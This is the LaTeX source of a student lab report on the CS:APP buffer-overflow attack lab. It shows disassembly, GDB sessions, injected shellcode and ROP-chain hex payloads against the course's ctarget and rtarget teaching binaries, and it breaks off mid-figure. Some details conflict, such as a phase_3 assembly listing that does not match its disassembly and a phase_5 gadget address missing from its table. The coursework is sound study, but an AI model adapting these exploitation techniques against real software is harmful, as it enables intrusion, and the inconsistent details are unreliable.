\documentclass{article}
\usepackage{fancyhdr}
\usepackage{ctex}
\usepackage{listings}
\usepackage{graphicx}
\usepackage[a4paper, body={18cm,22cm}]{geometry}
\usepackage{amsmath,amssymb,amstext,wasysym,enumerate,graphicx}
\usepackage{float,abstract,booktabs,indentfirst,amsmath}
\usepackage{array}
\usepackage{booktabs}
\usepackage{multirow}
\usepackage{url}
\usepackage{diagbox}
\renewcommand\arraystretch{1.4}
\usepackage{indentfirst}
\setlength{\parindent}{2em}
\usepackage{enumerate}
\setmonofont{MesloLGS NF}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{makecell}
\setCJKmonofont{黑体}
\lstset{
    language = [x86masm]Assembler,
    xleftmargin = 3em,xrightmargin = 3em, aboveskip = 1em,
	backgroundcolor = \color{white}, % 背景色
	basicstyle = \small\ttfamily, % 基本样式 + 小号字体
	rulesepcolor= \color{gray}, % 代码块边框颜色
	breaklines = true, % 代码过长则换行
	numbers = left, % 行号在左侧显示
	numberstyle = \small, % 行号字体
    numbersep = -14pt, 
	keywordstyle = \color{blue!50!red!100}, % 关键字颜色
	commentstyle =\color{red!50!green!50!blue!60}, % 注释颜色
	stringstyle = \color{red}, % 字符串颜色
	frame = shadowbox, % 用(带影子效果)方框框住代码块
	showspaces = false, % 不显示空格
	columns = fixed, % 字间距固定
} 
%--------------------页眉--------------------%
\pagestyle{fancy}
\fancyhead[L]{}
\fancyhead[R]{}
\fancyhead[C]{华东师范大学软件工程学院实验报告}
\fancyfoot[C]{-\thepage-}
\renewcommand{\headrulewidth}{1.5pt}
%--------------------标题--------------------%
\begin{document}
\begin{center}
  \LARGE{{\textbf{\heiti 华东师范大学软件工程学院实验报告}}}
  \begin{table}[H]
    \centering
    \begin{tabular}{p{2cm}p{4cm}<{\centering}p{1cm}p{2cm}p{6cm}<{\centering}}
      姓\qquad 名: & 李鹏达 & \quad & 学\qquad 号: & 10225101460                          \\ \cline{2-2} \cline{5-5}
      实验编号:    & Lab 03 & \quad & 实验名称:    & {Understanding Buffer Overflow Bugs}
      \\ \cline{2-2} \cline{5-5}
    \end{tabular}
  \end{table}
\end{center}
\rule{\textwidth}{1pt}
%--------------------正文--------------------%
\section{实验目的}
\large
\begin{enumerate}[1)]
  \item 深入了解缓冲区溢出
  \item 尝试简单地实践缓冲区溢出攻击
  \item 对 x86-64 的堆栈和参数传递机制有更深入的了解
  \item 获得更多使用 GDB 和 OBJDUMP 等调试工具的经验
\end{enumerate}
\normalsize
\section{实验内容与实验步骤}
\subsection{实验内容}
\large
此作业将帮助您详细了解 X86-64 调用约定和堆栈组织。
它涉及对实验室目录中的可执行文件bufbomb 应用一系列缓冲区溢出攻击(五次攻击)。

\subsubsection{Code Injection Attacks}
\paragraph{1) phase\_1}
在本部分中,不需要向程序注入新的代码。我们需要让程序重定向调用某个方法。

在程序catrget正常运行时,将会在函数test()内调用函数getbuf()。函数test()的C代码如下所示。

\begin{lstlisting}[title = 函数test()的C代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left, language = C]
    void test() 
    {
        int val;
        val = getbuf();
        printf("No exploit. Getbuf returned 0x%x\n", val);
    }
\end{lstlisting}
而我们的目的是使getbuf()函数返回时,调用函数touch1()。
\begin{lstlisting}[title = 函数touch1()的C代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left, language = C]
    void touch1()
    {
        vlevel = 1; /* Part of validation protocol */
        printf("Touch1!: You called touch1()\n");
        validate(1);
        exit(0);
    }
\end{lstlisting}

使用objdump反编译ctarget。
\begin{lstlisting}[language=bash]
    linux> objdump -d ctarget > ctarget.s
  \end{lstlisting}

首先,我们需要确定getbuf()的缓冲区大小。阅读汇编代码可以得知,其缓冲区大小为0x28,即40字节。

\begin{lstlisting}[title = getbuf()函数反汇编代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = none]
777 00000000004017a8 <getbuf>:                                                 
778   4017a8:   48 83 ec 28             sub    $0x28,%rsp
779   4017ac:   48 89 e7                mov    %rsp,%rdi
780   4017af:   e8 8c 02 00 00          callq  401a40 <Gets>
781   4017b4:   b8 01 00 00 00          mov    $0x1,%eax
782   4017b9:   48 83 c4 28             add    $0x28,%rsp
783   4017bd:   c3                      retq
784   4017be:   90                      nop
785   4017bf:   90                      nop    
\end{lstlisting}

接下来阅读touch1()函数反汇编代码可知此函数地址为0x00000000004017c0。

\begin{lstlisting}[title = touch1()函数反汇编代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = none]
787 00000000004017c0 <touch1>:
788   4017c0:   48 83 ec 08             sub    $0x8,%rsp
789   4017c4:   c7 05 0e 2d 20 00 01    movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
790   4017cb:   00 00 00
791   4017ce:   bf c5 30 40 00          mov    $0x4030c5,%edi
792   4017d3:   e8 e8 f4 ff ff          callq  400cc0 <puts@plt>
793   4017d8:   bf 01 00 00 00          mov    $0x1,%edi
794   4017dd:   e8 ab 04 00 00          callq  401c8d <validate>
795   4017e2:   bf 00 00 00 00          mov    $0x0,%edi
796   4017e7:   e8 54 f6 ff ff          callq  400e40 <exit@plt>  
\end{lstlisting}


因此,我们需要构造一份数据,内容为40个字节的任意数据加上touch1()函数的地址,来覆盖栈帧上的返回地址。由于X86-64使用小端法,因此我们需要将函数地址逆向填充。构造的十六进制数据phase1.txt如下。

\begin{lstlisting}[title=为phase\_1构造的十六进制数据, numbers=none,xleftmargin = 9em,xrightmargin = 9em]
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  c0 17 40 00 00 00 00 00
\end{lstlisting}
使用工具hex2raw将其转换成攻击字符串并运行程序。

\begin{lstlisting}[language=bash]
    linux> ./hex2raw < phase1.txt | ./ctarget -q
  \end{lstlisting}

\paragraph{2) phase\_2}

在这个部分,我们需要使getbuf() 函数返回时,调用函数 touch2(),并将我们的cookie值作为参数传递。

函数touch2()的C代码如下所示。

\begin{lstlisting}[title = 函数touch2()的C代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left, language = C]
    void touch2(unsigned val)
    {
        vlevel = 2; /* Part of validation protocol */
        if (val == cookie) {
            printf("Touch2!: You called touch2(0x%.8x)\n", val); validate(2);
        } else {
            printf("Misfire: You called touch2(0x%.8x)\n", val); fail(2);
        }
        exit(0);
    }
\end{lstlisting}

从汇编代码中得知,touch2()函数的地址为0x00000000004017ec。


\begin{lstlisting}[title = touch2()函数反汇编代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = none]
798 00000000004017ec <touch2>:
799   4017ec:   48 83 ec 08             sub    $0x8,%rsp
800   4017f0:   89 fa                   mov    %edi,%edx
801   4017f2:   c7 05 e0 2c 20 00 02    movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
802   4017f9:   00 00 00
803   4017fc:   3b 3d e2 2c 20 00       cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
804   401802:   75 20                   jne    401824 <touch2+0x38>
805   401804:   be e8 30 40 00          mov    $0x4030e8,%esi
806   401809:   bf 01 00 00 00          mov    $0x1,%edi
807   40180e:   b8 00 00 00 00          mov    $0x0,%eax
808   401813:   e8 d8 f5 ff ff          callq  400df0 <__printf_chk@plt>
809   401818:   bf 02 00 00 00          mov    $0x2,%edi
810   40181d:   e8 6b 04 00 00          callq  401c8d <validate>
811   401822:   eb 1e                   jmp    401842 <touch2+0x56>
812   401824:   be 10 31 40 00          mov    $0x403110,%esi
813   401829:   bf 01 00 00 00          mov    $0x1,%edi
814   40182e:   b8 00 00 00 00          mov    $0x0,%eax
815   401833:   e8 b8 f5 ff ff          callq  400df0 <__printf_chk@plt>
816   401838:   bf 02 00 00 00          mov    $0x2,%edi
817   40183d:   e8 0d 05 00 00          callq  401d4f <fail>
818   401842:   bf 00 00 00 00          mov    $0x0,%edi
819   401847:   e8 f4 f5 ff ff          callq  400e40 <exit@plt>
\end{lstlisting}

因此,我们可以构造如下的汇编攻击代码phase2.s。
\begin{lstlisting}[title = 构造的汇编攻击代码phase2.s, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left]
    mov    $0x59b997fa,%rdi
    pushq  $0x4017ec
    retq
  \end{lstlisting}

该代码首先将我们的cookie值0x59b997fa赋给$\%rdi$,令其成为第一个参数。接下来,将函数touch2()的地址压入栈中,接下来在返回时便可以返回至该地址。

使用gcc生成其二进制形式phase2.o,并再次使用objdump进行反汇编,得到其十六进制表示。

\begin{lstlisting}[language=bash]
    linux> gcc -c phase2.s phase2.o
    linux> objdump -d phase2.o > phase2.o.s
\end{lstlisting}

\begin{lstlisting}[title = 构造的汇编攻击代码phase2.s的十六进制表示, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = none]
 1                                                              
 2 phase2.o:     文件格式 elf64-x86-64
 3
 4
 5 Disassembly of section .text:
 6
 7 0000000000000000 <.text>:
 8    0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
 9    7:   68 ec 17 40 00          pushq  $0x4017ec
10    c:   c3                      retq                                     
\end{lstlisting}

我们需要知道该段攻击代码被插入的位置,可以使用GDB调试器来达到该目的。假设我们将攻击代码放在字符串的开头,注意到在getbuf()函数中,0x4017ac地址处的指令时,栈指针已经分配完毕。因此我们可以在此处设置断点并查看$\%rsp$寄存器的值。

\begin{lstlisting}[language=bash]
    (gdb) b *0x4017ac
    Breakpoint 1 at 0x4017ac: file buf.c, line 14.
    (gdb) r -q
    Starting program: /home/pdli/Desktop/lab3/target1/ctarget -q
    Cookie: 0x59b997fa

    Breakpoint 1, getbuf () at buf.c:14
    14      buf.c: 没有那个文件或目录.
    (gdb) p/x $rsp
    $1 = 0x5561dc78
\end{lstlisting}

得知攻击代码插入的地址应为0x5561dc78。

因此,我们可以构造一份十六进制数据,起始为攻击代码,接下来用任意数据填充至四十字节,并在最后写入攻击代码的地址。构造的十六进制数据phase2.txt如下。

\begin{lstlisting}[title=为phase\_2构造的十六进制数据, numbers=none,xleftmargin = 9em,xrightmargin = 9em]
  48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  78 dc 61 55 00 00 00 00  
\end{lstlisting}
使用工具hex2raw将其转换成攻击字符串并运行程序。

\begin{lstlisting}[language=bash]
    linux> ./hex2raw < phase2.txt | ./ctarget -q
  \end{lstlisting}

\paragraph{3) phase\_3}在本部分,我们需要使getbuf()函数返回的时,执行touch3()而不是返回test()。

函数touch3()的C代码如下所示。

\begin{lstlisting}[title = 函数touch3()的C代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left, language = C]
    void touch3(char *sval)
    {
        vlevel = 3; /* Part of validation protocol */
        if (hexmatch(cookie, sval)) {
            printf("Touch3!: You called touch3(\"%s\")\n", sval);
            validate(3);
        } else {
            printf("Misfire: You called touch3(\"%s\")\n", sval);
            fail(3);
        }
        exit(0);
    }
\end{lstlisting}

从汇编代码中得知,touch3()函数的地址为0x00000000004018fa。

\begin{lstlisting}[title = touch3()函数反汇编代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = none]
872 00000000004018fa <touch3>:
873   4018fa:   53                      push   %rbx
874   4018fb:   48 89 fb                mov    %rdi,%rbx
875   4018fe:   c7 05 d4 2b 20 00 03    movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
876   401905:   00 00 00
877   401908:   48 89 fe                mov    %rdi,%rsi
878   40190b:   8b 3d d3 2b 20 00       mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
879   401911:   e8 36 ff ff ff          callq  40184c <hexmatch>
880   401916:   85 c0                   test   %eax,%eax
881   401918:   74 23                   je     40193d <touch3+0x43>
882   40191a:   48 89 da                mov    %rbx,%rdx
883   40191d:   be 38 31 40 00          mov    $0x403138,%esi
884   401922:   bf 01 00 00 00          mov    $0x1,%edi
885   401927:   b8 00 00 00 00          mov    $0x0,%eax
886   40192c:   e8 bf f4 ff ff          callq  400df0 <__printf_chk@plt>
887   401931:   bf 03 00 00 00          mov    $0x3,%edi
888   401936:   e8 52 03 00 00          callq  401c8d <validate>
889   40193b:   eb 21                   jmp    40195e <touch3+0x64>
890   40193d:   48 89 da                mov    %rbx,%rdx
891   401940:   be 60 31 40 00          mov    $0x403160,%esi
892   401945:   bf 01 00 00 00          mov    $0x1,%edi
893   40194a:   b8 00 00 00 00          mov    $0x0,%eax
894   40194f:   e8 9c f4 ff ff          callq  400df0 <__printf_chk@plt>
895   401954:   bf 03 00 00 00          mov    $0x3,%edi
896   401959:   e8 f1 03 00 00          callq  401d4f <fail>
897   40195e:   bf 00 00 00 00          mov    $0x0,%edi
898   401963:   e8 d8 f4 ff ff          callq  400e40 <exit@plt>
\end{lstlisting}
其调用的函数hexmatch()的C代码如下。
\begin{lstlisting}[title = 函数hexmatch()的C代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left, language = C]
    /* Compare string to hex represention of unsigned value */
    int hexmatch(unsigned val, char *sval)
    {
        char cbuf[110];
        /* Make position of check string unpredictable */
        char *s = cbuf + random() % 100;
        sprintf(s, "%.8x", val);
        return strncmp(sval, s, 9) == 0;
    }
\end{lstlisting}

由于在函数hexmatch()中,字符串s的位置是随机的,我们写在getbuf()函数栈中的字符串很有可能被覆盖,一旦被覆盖就无法正常比较。因此,考虑把cookie的字符串数据存在test()的栈上。可以使用GDB调试器找到应当存放cookie字符串的位置。注意到在test()函数中,0x40196c地址处的指令时,栈指针已经分配完毕。因此我们可以在此处设置断点并查看$\%rsp$寄存器的值。

\begin{lstlisting}[language=bash]
    (gdb) b *0x40196c
    Breakpoint 1 at 0x40196c: file visible.c, line 92.
    (gdb) r -q
    Starting program: /home/pdli/Desktop/lab3/target1/ctarget -q
    Cookie: 0x59b997fa

    Breakpoint 1, test () at visible.c:92
    92      visible.c: 没有那个文件或目录.
    (gdb) p/x $rsp
    $1 = 0x5561dca8
\end{lstlisting}

得知cookie字符串应存放的地址应为0x5561dca8。与phase\_2相同,攻击代码的地址为0x4017ec。

接下来让我们构建攻击汇编代码。

\begin{lstlisting}[title = 构造的汇编攻击代码phase3.s, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left]
    mov    $0x59b997fa,%rdi
    pushq  $004018fa
    retq
  \end{lstlisting}

该代码首先将我们的cookie字符串的地址0x59b997fa赋给$\%rdi$,令其成为第一个参数。接下来,将函数touch3()的地址压入栈中,接下来在返回时便可以返回至该地址。

使用gcc生成其二进制形式phase3.o,并再次使用objdump进行反汇编,得到其十六进制表示。

\begin{lstlisting}[language=bash]
    linux> gcc -c phase3.s phase3.o
    linux> objdump -d phase3.o > phase3.o.s
\end{lstlisting}

\begin{lstlisting}[title = 构造的汇编攻击代码phase3.s的十六进制表示, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = none]
 1                                                               
 2 phase3.o:     文件格式 elf64-x86-64
 3
 4
 5 Disassembly of section .text:
 6
 7 0000000000000000 <.text>:
 8    0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
 9    7:   68 fa 18 40 00          pushq  $0x4017ec
10    c:   c3                      retq                                                                                          
\end{lstlisting}


cookie值0x59b997fa作为字符串转换为ascii码表示为35 39 62 39 39 37 66 61。
因此,我们可以构造一份十六进制数据,起始为攻击代码,接下来用任意数据填充至四十字节,并在最后写入攻击代码的地址。构造的十六进制数据phase3.txt如下。

\begin{lstlisting}[title=为phase\_3构造的十六进制数据, numbers=none,xleftmargin = 9em,xrightmargin = 9em]
  48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  78 dc 61 55 00 00 00 00
  35 39 62 39 39 37 66 61  
\end{lstlisting}
使用工具hex2raw将其转换成攻击字符串并运行程序。

\begin{lstlisting}[language=bash]
    linux> ./hex2raw < phase3.txt | ./ctarget -q
  \end{lstlisting}

\subsubsection{Return-Oriented Programming}

对程序 RTARGET 执行代码注入攻击比对 CTARGET 困难得多,
因为它使用两种技术来阻止此类攻击:
它使用随机化,因此每次运行的堆栈位置都不同。 这让人无法
确定注入代码的位置。
它将保存堆栈的内存部分标记为不可执行,因此即使您可以设置
程序与注入代码的开头相反,程序将因分段错误而失败。


幸运的是,聪明的人已经设计出策略,通过执行来在程序中完成有用的事情
现有代码,而不是注入新代码。 最一般的形式称为返回导向
编程 (ROP)。 ROP 的策略是识别现有程序中的字节序列
由一个或多个指令组成,后跟指令 ret。 这样的段称为gadget。

\paragraph*{4) phase\_4}
在本部分,我们需要使用ROP攻击重新完成phase\_2的任务。

首先,使用objdump反编译rtarget。
\begin{lstlisting}[language=bash]
    linux> objdump -d rtarget > rtarget.s
  \end{lstlisting}

可以考虑将所需cookie值存入栈中,使用$pop$指令将其弹出并赋给寄存器。查表可知,$pop$指令对应的十六进制编码为5*(*为从8到f的数字)。在rtarget.s中搜索“5* c3”,得到可用的程序片段如下表所示(gadget\_1):

\begin{table}[H]
  \begin{center}
    \begin{tabular}{|c|c|c|}
      \hline
      地址     & 十六进制编码 & 指令                \\
      \hline
      0x4019ab & 58 90 c3     & \thead[l]{pop \%rax \\ nop \\ ret} \\
      \hline
      0x4019cc & 58 90 c3     & \thead[l]{pop \%rax \\ nop \\ ret} \\
      \hline
    \end{tabular}
  \end{center}
\end{table}

由于发现只能将pop出的值赋给rax寄存器,因此我们还需要执行指令“movq \%rax,\%rdi”,查表,发现其十六进制编码为“48 89 c7”。因此,我们搜索“48 89 c7 c3”,得到可用的程序片段如下表所示(gadget\_2):

\begin{table}[H]
  \begin{center}
    \begin{tabular}{|c|c|c|}
      \hline
      地址     & 十六进制编码   & 指令                       \\
      \hline
      0x4019a2 & 48 89 c7 c3    & \thead[l]{movq \%rax,\%rdi \\ ret} \\
      \hline
      0x4019c5 & 48 89 c7 90 c3 & \thead[l]{movq \%rax,\%rdi \\ nop \\ ret} \\
      \hline
    \end{tabular}
  \end{center}
\end{table}

因此,我们构造一份十六进制数据,起始时先将缓冲区填满,然后依次为gadget\_1,cookie,gadget\_2,touch2。使用其中一组数据构造的十六进制数据phase4.txt如下。

\begin{lstlisting}[title=为phase\_4构造的十六进制数据, numbers=none,xleftmargin = 9em,xrightmargin = 9em]
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  ab 19 40 00 00 00 00 00
  fa 97 b9 59 00 00 00 00
  a2 19 40 00 00 00 00 00
  ec 17 40 00 00 00 00 00 
\end{lstlisting}
使用工具hex2raw将其转换成攻击字符串并运行程序。
\begin{lstlisting}[language=bash]
    linux> ./hex2raw < phase4.txt | ./rtarget -q
\end{lstlisting}

\paragraph*{5) phase\_5}在本部分,我们需要使用ROP攻击重新完成phase\_3的任务。

首先,我们需要获取栈指针的位置。查表可知,“movq \%rsp,\%*”的十六进制表示为“48 89 e*”,搜索可得下表:

\begin{table}[H]
  \begin{center}
    \begin{tabular}{|c|c|c|}
      \hline
      地址     & 十六进制编码   & 指令                       \\
      \hline
      0x401a06 & 48 89 e0 c3    & \thead[l]{movq \%rsp,\%rax \\ ret} \\
      \hline
      0x4019c5 & 48 89 e0 90 c3 & \thead[l]{movq \%rsp,\%rax \\ nop \\ ret} \\
      \hline
    \end{tabular}
  \end{center}
\end{table}

注意到函数add\_xy()中存在指令“lea (\%rdi,\%rsi,1),\%rax”,地址位于0x4019d6,我们可以考虑利用其来引入字符串的地址。

因此,接下来我们需要将rsp寄存器的值转移给rdi寄存器,并在rsi寄存器中存入偏移量。在上一个部分中,我们曾使用过将rax寄存器的值赋给rdi寄存器的代码,如下表所示:
\begin{table}[H]
  \begin{center}
    \begin{tabular}{|c|c|c|}
      \hline
      地址     & 十六进制编码   & 指令                       \\
      \hline
      0x4019a2 & 48 89 c7 c3    & \thead[l]{movq \%rax,\%rdi \\ ret} \\
      \hline
      0x4019c5 & 48 89 c7 90 c3 & \thead[l]{movq \%rax,\%rdi \\ nop \\ ret} \\
      \hline
    \end{tabular}
  \end{center}
\end{table}

接下来,我们考虑使用pop指令从栈中读取偏移量。依然使用我们曾经使用过的代码,如下表所示:

\begin{table}[H]
  \begin{center}
    \begin{tabular}{|c|c|c|}
      \hline
      地址     & 十六进制编码 & 指令                \\
      \hline
      0x4019ab & 58 90 c3     & \thead[l]{pop \%rax \\ nop \\ ret} \\
      \hline
      0x4019cc & 58 90 c3     & \thead[l]{pop \%rax \\ nop \\ ret} \\
      \hline
    \end{tabular}
  \end{center}
\end{table}

接下来,经过查找,我们可以使用下表中的三条命令完成从rax寄存器到rsi寄存器的转移。

\begin{table}[H]
  \begin{center}
    \begin{tabular}{|c|c|c|}
      \hline
      地址     & 十六进制编码   & 指令                       \\
      \hline
      0x4019dd & 89 c2 90 c3    & \thead[l]{movl \%eax,\%edx \\ nop \\ ret} \\
      \hline
      0x401a34 & 89 d1 38 c9 c3 & \thead[l]{movl \%edx,\%ecx \\ cmp \%cl,\%cl \\ ret} \\
      \hline
      0x401a13 & 89 ce 90 90 c3 & \thead[l]{movl \%ecx,\%esi \\ nop \\ nop \\ ret} \\
      \hline
    \end{tabular}
  \end{center}
\end{table}

这样,我们就可以写出攻击代码。首先填满缓冲区,再获得rsp寄存器的值并转移给 rdi 寄存器,然后在 rsi 寄存器中存入偏移量。最后获得字符串的地址,将其存入rdi寄存器,调用touch3函数。使用其中一组数据构造的十六进制数据phase5.txt如下。

\begin{lstlisting}[title=为phase\_5构造的十六进制数据, numbers=none,xleftmargin = 9em,xrightmargin = 9em]
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00     
  06 1a 40 00 00 00 00 00      	
  c5 19 40 00 00 00 00 00 
  cc 19 40 00 00 00 00 00 
  48 00 00 00 00 00 00 00 
  dd 19 40 00 00 00 00 00 
  69 1a 40 00 00 00 00 00 
  13 1a 40 00 00 00 00 00 
  d6 19 40 00 00 00 00 00 
  c5 19 40 00 00 00 00 00 
  fa 18 40 00 00 00 00 00 
  35 39 62 39 39 37 66 61 
  00 00 00 00 00 00 00 00
\end{lstlisting}
使用工具hex2raw将其转换成攻击字符串并运行程序。
\begin{lstlisting}[language=bash]
    linux> ./hex2raw < phase5.txt | ./rtarget -q
\end{lstlisting}

\normalsize
\subsection{实验步骤}
\large
\begin{enumerate}[1)]
  \item 解打包target1.tar
        \begin{lstlisting}[language=bash]
    linux> tar -xvf target1.tar
    \end{lstlisting}
  \item 对可执行程序ctarget进行反汇编,生成ctarget.s文件
        \begin{lstlisting}[language=bash]
    linux> objdump -d ctarget > ctarget.s
    \end{lstlisting}
  \item 阅读ctarget.s文件中的汇编代码,进行分析
  \item 对可执行程序rtarget进行反汇编,生成rtarget.s文件
        \begin{lstlisting}[language=bash]
    linux> objdump -d rtarget > rtarget.s
    \end{lstlisting}
  \item 阅读rtarget.s文件中的汇编代码,进行分析
  \item 构建攻击代码
  \item 进行缓冲区溢出攻击
\end{enumerate}
\normalsize
\section{实验过程与分析}
\large

实验的运行结果如下:
\begin{figure}[H]
  \centering
  
\includegraphics[width=17cm]{phase1.png}
  \caption{phase\_1运行结果}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=17cm]{phase2.png}
  \caption{phase\_2运行结果}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=17cm]{phase3.png}
  \caption{phase\_3运行结果}
\end{figure}

\begin{figure}[H]
  \centering
